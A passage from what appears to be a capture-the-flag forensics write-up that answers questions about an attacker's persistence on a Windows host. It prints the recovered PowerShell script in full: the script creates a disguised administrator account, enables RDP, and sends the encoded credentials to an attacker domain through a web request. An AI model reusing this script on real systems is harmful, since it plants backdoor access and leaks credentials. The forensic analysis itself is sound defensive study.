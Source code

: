 ## Question 8

Question 8: What domain name did the attacker use for credential exfiltration? (domain)

We examined the persistence PowerShell script JM.ps1, located at The_Enduring_Echo\The_Enduring_Echo\C\Users\Werni\AppData\Local\JM.ps1. The attacker used this script to select a username from a predefined array, generate a password based on the execution timestamp, create the account, and send the credentials to the attacker-controlled domain NapoleonsBlackPearl.htb.

```console
# List of potential usernames
$usernames = @("svc_netupd", "svc_dns", "sys_helper", "WinTelemetry", "UpdaterSvc")

# Check for existing user
$existing = $usernames | Where-Object {
    Get-LocalUser -Name $_ -ErrorAction SilentlyContinue
}

# If none exist, create a new one
if (-not $existing) {
    $newUser = Get-Random -InputObject $usernames
    $timestamp = (Get-Date).ToString("yyyyMMddHHmmss")
    $password = "Watson_$timestamp"

    $securePass = ConvertTo-SecureString $password -AsPlainText -Force

    New-LocalUser -Name $newUser -Password $securePass -FullName "Windows Update Helper" -Description "System-managed service account"
    Add-LocalGroupMember -Group "Administrators" -Member $newUser
    Add-LocalGroupMember -Group "Remote Desktop Users" -Member $newUser

    # Enable RDP
    Set-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Terminal Server" -Name "fDenyTSConnections" -Value 0
    Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
    Invoke-WebRequest -Uri "http://NapoleonsBlackPearl.htb/Exchange?data=$([Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes("$newUser|$password")))" -UseBasicParsing -ErrorAction SilentlyContinue | Out-Null
}
```

## Question 9

Question 9: What password did the attacker's script generate for the newly created user? (string)

Based on question 7, we know the user `svc_netupd` was created at 23:05:09.7646587 on 2025-08-24. The expected password format would be Watson_20250824230509, but because of UTC/local time differences we must be careful. This challenge really kept me on my toes with time sync and making sure I was using the right time to show accurate result. Fortunately, the scheduled task created by the attacker still exists, so we inspected the task file at The_Enduring_Echo\The_Enduring_Echo\C\Windows\System32\Tasks\SysHelper Update. The attacker configured the task to execute the script at local time 2025-08-24T16:03:00 with a 2‑minute interval. Therefore the actual password is Watson_20250824160509.
